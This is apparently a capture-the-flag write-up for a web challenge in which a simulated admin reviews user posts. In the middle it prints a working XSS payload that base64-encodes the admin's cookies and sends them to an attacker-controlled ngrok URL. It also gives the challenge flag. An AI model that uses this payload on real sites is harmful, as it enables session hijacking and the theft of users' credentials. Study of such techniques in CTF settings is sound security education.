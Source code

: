 This one just links to a site `https://govagriculture.web.ctfcompetition.com`. The site just contains 2 images, and a input along with a submit button to create a post. There is also an admin link in the top nav bar. Clicking the admin link just lead to `https://govagriculture.web.ctfcompetition.com/admin` but redirected back to the main page. Clicking the submitted button did a POST to `https://govagriculture.web.ctfcompetition.com/post` with a response page that just said `Your post was submitted for review. Administator will take a look shortly. `. Nothing else happens afterwards. I was stuck on this for a while as I had no idea what to do since the submit or admin links did not appear to do anything. As the name of the task implies, an xss exploit is used somehow but I couldn't figure out how. After spending a lot of time clicking around, I saw a hint that creating a post would get a fake 'admin' on the server to view the post. Without that hint I would be wasting a lot more time.

So now with that hint, I assumed that I would have to use xss to grab the cookies when the admin viewed the page and then send it back somehome. Unsure if my ISP even let me expose a webserver, I setup a tunnel using `ngrok`. All I did was run `ngrok http 80` and did not even need to setup a server since all I needed was a way to see the data. After setting that up, I entered this script as the post contents
```js
<script>
var data = btoa(document.cookie);
document.write("<img src=\"https://<ngrok-ip>.ngrok.io/?data=" + data + "\">");
</script>
```
The idea is that the cookies would be ecoded and sent to the endpoint through a request when the image tries to load.

After hitting submit, I looked in the dashboard and saw that indeed a request had been made to the url along with the cookies as a query parameter. A quick decode and we have our flag `CTF{8aaa2f34b392b415601804c2f5f0f24e}`